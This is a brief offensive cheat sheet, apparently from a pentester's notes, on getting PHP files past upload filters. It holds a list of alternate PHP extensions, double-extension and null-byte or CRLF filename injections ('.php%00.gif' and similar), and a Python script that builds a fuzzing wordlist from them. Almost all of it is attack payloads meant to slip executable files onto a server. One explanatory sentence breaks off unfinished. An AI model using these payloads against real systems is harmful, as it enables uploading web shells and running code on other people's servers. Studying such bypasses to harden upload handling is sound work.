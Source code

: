  - In case `.php` files are not allowed to be uploaded or not executed, try `.php5`, `.php7`, `.phtml`, etc.

**List of extensions**

```
.php
.php3
.php4
.php5
.php7
.php8
.phpwnd
.pht
.phtm
.phtml
.phar
.phpt
.phps
.gif.php
.php.gif
.php%00.gif
.php\x00.gif
```

Herby exploits `.gif.php` a weak regex check of a filename and `.php.gif` a weak server configuration, which would try to execute all files with a `.php` in the filename.

The character injection (e.g. `.php\x00.gif`) try to exploit the 

```
%20
%0a
%00
%0d%0a
%0d0a
\x20
\x0a
\x00
\x0d\x0a
\x0d0a
/
.\
.
…
...
:
```

**Wordlist generator:**

```python
#!/usr/bin/env python3
with open("wordlist.txt", "w", encoding="UTF-8") as f:
    for e in ['.php', '.php3', '.php4', '.php5', '.php7', '.php8', '.phpwnd', '.pht', '.phtm', '.phtml', '.phar', '.phpt', '.phps']:
        # Different extensions
        f.write(f"s{e}\n")
        # Double extension
        f.write(f"s.gif{e}\n")
        f.write(f"s{e}.gif\n")
        # Character injection
        for c in ['%20', '%0a', '%00', '%0d%0a', '%0d0a', '\\x20', '\\x0a', '\\x00', '\\x0d0a', '\\x0d\\x0a', '/', './', '.', '…', ':', '...']:
            f.write(f"s{e}{c}.gif\n")
            f.write(f"s{c}{e}.gif\n")
            f.write(f"s.gif{e}{c}\n")
            f.write(f"s.gif{c}{e}\n")
```